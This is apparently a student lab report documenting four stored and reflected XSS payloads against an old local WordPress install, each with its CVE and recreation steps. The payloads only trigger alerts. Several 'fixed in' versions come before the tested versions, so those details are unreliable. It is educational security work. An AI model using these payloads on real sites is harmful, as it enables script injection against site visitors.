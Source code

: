 # Project 7 - WordPress Pentesting

Time spent: Approx 7 hours spent in total

> Objective: Find, analyze, recreate, and document vulnerabilities affecting an old version of WordPress

## Pentesting Report



**Exploit 1: “Upload Same Origin Method Execution”**
-	[x] Summary: Attacking the system via a user clicking on a malicious comment that alerts the user. This click was led the user to involuntarily installing a plug-in on their system.
    -	Vulnerability type: XSS
    -	Tested in version: 4.5.1
    -	Fixed in version: 4.2.8
- [x] GIF Walkthrough:	
     <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_1.gif" alt="attack_1" title="attack_1" />
- [x] Steps to recreate: 
1.	Go to any post.
2.	Paste the following as a comment:
<button onclick="fire()">Click</button>
<script>
function fire() {
open('javascript:alert("exploit 1: Same Origin Method Execution")');
}
</script>
3.	Click on the button.
4.	Alert(“exploit 1: Same Origin Method Execution”) will pop up.
-	[x] Affected source code:
      	http://localhost/wp-admin/comment.php?action=editcomment&c=9
-	CVE:   2016-4566



**Exploit 2: “Unauthenticated Stored Cross Site-Scripting (XSS)”**
-	[x] Summary: Attacking the system when a vulnerable user comes in contact on a malicious webpage that will then alert the user. 
    -	Vulnerability Type: Stored XSS
    -	Tested in version: 4.2
    -	Fixed in version: 4.2.1
-	[x] GIF Walkthrough:
    <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_2.gif" alt="attack_2" title="attack_2" />
-	[x] Steps to recreate: 
1.	Go to any post
2.	Paste the following on a comment
<a title='x onmouseover=alert(unescape(/Exploit2:%successful/.source)) style=position:absolute;left:0;top:0;width:5000px;height:5000px
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAA…’></a>
3.	Post the comment 
4.	Once the text is visible to the user, the alert will pop up
-	[x] Affected source code:
    http://localhost/wp-admin/comment.php?action=editcomment&c=8 
-	CVE:   2015-3440




**Exploit 3: “Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds**
-	[x] Summary: Attacking the system via a user clicking on a malicious link that will alert the user. Clicking this embedded “YouTube” link will send an alert to the user. 
    -	Vulnerability types: XSS
    -	Tested in version: 4.0-4.7.2
    -	Fixed in version: 4.2.13
-	[x] GIF Walkthrough:
    <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_3.gif" alt="attack_3" title="attack_3" />
-	[x] Steps to recreate: 
1.	Create new post 
2.	Inside the body of the new post insert this code

[embed src='https://youtube.com/embed/1234\x3csvg onload=alert("vulnerable!")\x3e'][/embed]

3.	Save changes to the post and see the imbedded link, click on view post 
4.	An alert window will pop up once redirected with the message “vulnerable”

-	[x] Affected source code:
     http://localhost/wp-admin/post.php?post=28&action=edit 
-	CVE:   2017-6817




**Exploit 4: “Authenticated Cross-Site Scripting via Media File Metadata”**
-	[x] Summary: 
    -	Vulnerability type: Stored XSS
    -	Tested in version: 3.6-4.7.2
    -	Fixed in version: 4.2.13
-	[x] GIF Walkthrough:
    <img src="https://github.com/eddenk/Codepathweek7/blob/master/attack_4.gif" alt="attack_4" title="attack_4" />
-	[x] Steps to recreate: 
1.	Upload a media file to WordPress containing an exploit in the form of metadata 
2.	If the image uploaded does not contain Metadata already, add it to the description of the media file on the admin console add to the description:

      "filename <script>alert("Exploit 4 Successful");</script>"

3.	 When viewing the attachment page, an alert to the user will pop up.
-	[x] Affected source code:
      	http://localhost/wp-admin/upload.php?item=31 
-	CVE:   2017-6814




## Assets

List any additional assets, such as scripts or files

## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)

GIFs created with [LiceCap](http://www.cockos.com/licecap/).

## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
